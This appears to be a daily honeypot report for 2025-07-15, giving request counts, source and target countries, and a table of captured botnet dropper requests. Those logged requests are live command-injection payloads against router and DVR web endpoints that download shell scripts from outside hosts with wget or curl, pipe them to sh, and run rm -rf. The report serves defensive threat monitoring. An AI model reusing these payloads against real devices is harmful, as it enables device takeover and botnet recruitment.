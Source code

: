 ```yaml
---
title: "Report: 2025-07-15 "
date: 2025-07-15
desciption: "Report: 2025-07-15" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-15 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 11 stage 1 IP address(es), linked to 6 dropper URL(s).  

There are 53 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1276 requests were recorded during the day, originating from 11 different countries, with a peak of 485 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| US               | Germany            |
| US               | Germany            |
| US               | Germany            |
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                                                                                                     |
|:---------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 45.135.194.11  | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=%28wget%20-O-%20http%3A%2F%2F38.59.219.27%2Frondo.tbk.sh%7C%7Cbusybox%20wget%20-O-%20http%3A%2F%2F38.59.219.27%2Frondo.tbk.sh%7C%7Ccurl%20http%3A%2F%2F38.59.219.27%2Frondo.tbk.sh%29%20%7C%20sh%3B%29%3Becho%20 HTTP/1.1                  |
| 45.135.194.11  | GET /cgi-bin/account_mgr.cgi?cmd=cgi_user_add&name=%27%3B%28wget%20-O-%20http%3A%2F%2F38.59.219.27%2Frondo.dlink.sh%7C%7Cbusybox%20wget%20-O-%20http%3A%2F%2F38.59.219.27%2Frondo.dlink.sh%7C%7Ccurl%20http%3A%2F%2F38.59.219.27%2Frondo.dlink.sh%29%20%7C%20sh%3B%27 HTTP/1.1                              |
| 183.252.52.229 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                        |
| 8.222.237.234  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                        |
| 45.135.194.11  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=%28wget%20-O-%20http%3A%2F%2F38.59.219.27%2Frondo.netgear.sh%7C%7Cbusybox%20wget%20-O-%20http%3A%2F%2F38.59.219.27%2Frondo.netgear.sh%7C%7Ccurl%20http%3A%2F%2F38.59.219.27%2Frondo.netgear.sh%29%20%7C%20sh&curpath=%2F&currentsetting.htm=1 HTTP/1.1 |
| 45.135.194.11  | GET /login.cgi?multilingual%20show%27%3B%28wget%20-O-%20http%3A%2F%2F38.59.219.27%2Frondo.dlink.sh%7C%7Cbusybox%20wget%20-O-%20http%3A%2F%2F38.59.219.27%2Frondo.dlink.sh%7C%7Ccurl%20http%3A%2F%2F38.59.219.27%2Frondo.dlink.sh%29%20%7C%20sh%3B%27%24 HTTP/1.1                                            |